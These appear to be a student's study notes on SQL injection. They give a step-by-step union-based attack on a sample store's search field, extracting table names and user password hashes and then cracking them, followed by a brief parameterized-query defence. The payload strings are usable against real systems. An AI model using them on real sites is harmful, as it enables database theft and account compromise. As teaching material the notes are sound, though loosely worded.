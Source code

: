## SQL INJECTION:
- SQL injection attacks ~80% of web is affected (Cybersecurity issue)
- SQL code gets injected as the parameters (SQL), and because SQL prioritizes code over parameters, it will get executed as code
- data is the most valuable resource in the world

- How to attack - Softwarestore example:
    1. is there even a chance, that I can attack?
        - what is the backend language?
        - to the input I try to insert ` ot " or ' to get a syntax error
        - if we get an error repeatedly, it means that the injection works
    2. Now we look for something partial (to make it use `LIKE` keyword in the background) -> we assume it uses SQL at this point
        - we can then use -- to comment the rest of the code
        - we can check again if -- " ot -- ' or -- ` breaks the code -> if it doesn't, then it means our assumption was almost correct
        - we can use `UNION` keyword to join `SELECT`s -> if the coulmns number matches:
            
                ' UNION SELECT 'one', 'two', 'three' -- (keep doing this until you find the correct number of columns)
        
        - Now let's check what the SQL dialect is:

                ' UNION SELECT NULL, 'Ver', VERSION() // OR @@VER // OR VER()
        
        - We found out we are using postgresql

    3. Let's find out what data there is (eg. Table names)

        - ' UNION SELECT NULL, TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES -- // A database of the info of the databases
        - we want to look for the public table schemas

        - ' UNION SELECT NULL, COLUMN_NAME, DATA_TYPE FROM information_schema.COLUMNS WHERE TABLE_NAME = 'person' -- // A database of the info of the databases
    
    4. Only display what we need:
        
        - We add an empty search result to the beginning, eg 'linux': linux ' UNION SELECT NULL...

    5. Now we access the found tables
        
        - ' UNION SELECT NULL, CONCAT(name, ':', role), password_hash FROM person --
    
    6. We find out the if the hash encryption is MD5 for example

        - linux' UNION SELECT NULL, 'Is MD5?', ('hash' SIMILAR TO '[0-9a-f]{32}')::TEXT -- -> if returns true, it is likely MD5
    
    7. now we can google online decrypter for the hasher type, an there we have our password

- How to defend:
    - use parameterized inputs:
        
            :name   // we use this in the query (: is general, @ symbol is for C# specifically)

            string nameWithWildcards = "%" + name + "%";
            adapter.SelectCommand?.Parameters.AddWithValue(":name", nameWithWildcards);
